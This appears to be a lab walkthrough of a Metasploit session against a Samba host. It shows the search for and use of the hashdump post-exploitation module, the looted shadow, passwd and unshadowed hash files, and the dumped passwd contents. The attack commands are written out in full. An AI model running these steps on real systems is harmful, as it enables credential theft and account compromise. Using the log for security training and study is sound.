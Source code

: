 ```
msf5 exploit(linux/samba/is_known_pipename) > search hashdump
Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   13  post/linux/gather/hashdump                                             normal  No     Linux Gather Dump Password Hashes for Linux Systems
```

```
msf5 exploit(linux/samba/is_known_pipename) > use post/linux/gather/hashdumpmsf5 post(linux/gather/hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/hashdump) > set SESSION 3
SESSION => 3
msf5 post(linux/gather/hashdump) > run

[+] Unshadowed Password File: /root/.msf4/loot/20230317131814_hashdump_192.153.226.3_linux.hashes_755521.txt
[*] Post module execution completed
msf5 post(linux/gather/hashdump) > loot

Loot
====

host           service  type          name                   content     info                            path
----           -------  ----          ----                   -------     ----                            ----
192.153.226.3           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.shadow_750836.txt
192.153.226.3           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.passwd_260851.txt
192.153.226.3           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.hashes_755521.txt
```

linux.passwd: Linux Passwd File

```
msf5 post(linux/gather/hashdump) > cat /root/.msf4/loot/20230317131814_hashdump_192.153.226.3_linux.passwd_260851.txt
[*] exec: cat /root/.msf4/loot/20230317131814_hashdump_192.153.226.3_linux.passwd_260851.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```